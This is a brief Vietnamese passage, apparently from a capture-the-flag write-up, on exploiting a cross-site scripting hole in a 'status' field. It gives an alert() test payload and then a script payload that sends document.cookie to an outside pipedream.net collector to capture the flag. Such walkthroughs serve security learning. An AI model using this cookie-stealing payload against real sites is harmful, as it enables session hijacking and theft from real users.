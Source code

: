 - Vậy status có thể dính XSS. Thử với payload:

```
admin"><script>alert(1)</script>
```

- Ta được:

![1](1/../img/15/Screenshot%20from%202023-01-27%2022-00-46.png)

- Vậy gửi cookie qua server của ta thôi:

```
admin"><script>fetch("https://1cbc05c9d3b9533c136bdb7d71fce3a0.m.pipedream.net?flag=".concat(document.cookie))</script>
```

![1](1/../img/15/Screenshot%20from%202023-01-27%2022-05-38.png)
